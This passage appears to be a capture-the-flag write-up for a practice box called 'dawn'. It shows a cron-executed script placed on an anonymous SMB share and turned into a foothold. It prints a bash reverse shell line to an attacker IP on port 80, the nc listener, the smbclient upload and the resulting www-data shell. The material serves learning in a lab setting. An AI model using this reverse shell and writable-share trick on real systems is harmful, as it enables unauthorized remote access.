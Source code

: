 > `web-control` seems interesting as it seems to get executed with `/bin/sh`.
{: .prompt-info }

## exploiting the `smb` share
I have to admit it took me a while to realize what the author of the box wanted us to do here. The idea is that the empty `smb` share (named `ITDEPT`) is at the internal server location `/home/dawn/ITDEPT`. So what we do is we create a file named `web-control` and in this file we try to trigger a simple reverse shell.  
This works as `web-control` seems to get executed regulary with `/bin/sh` by a `cronjob` (believing the `management.log`). 
  
`web-control` content
```bash
$ cat web-control 
#/bin/sh

bash -c 'bash -i >& /dev/tcp/192.168.49.123/80 0>&1'
```

Start listener on the attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Upload `web-control` to the `smb` share.
```bash
$ smbclient //192.168.123.11/ITDEPT -N
Try "help" to get a list of possible commands.
smb: \> put web-control
putting file web-control as \web-control (0.9 kb/s) (average 0.9 kb/s)
smb: \> ls
  .                                   D        0  Wed Nov 23 16:21:28 2022
  ..                                  D        0  Wed Jul 22 13:19:41 2020
  web-control                         A       63  Wed Nov 23 16:21:28 2022

                7158264 blocks of size 1024. 3516260 blocks available
```

Catch connection from target
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.123.11: inverse host lookup failed: Unknown host
connect to [192.168.49.123] from (UNKNOWN) [192.168.123.11] 54158
bash: cannot set terminal process group (1817): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dawn:~$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Shell!
{: .prompt-info }

---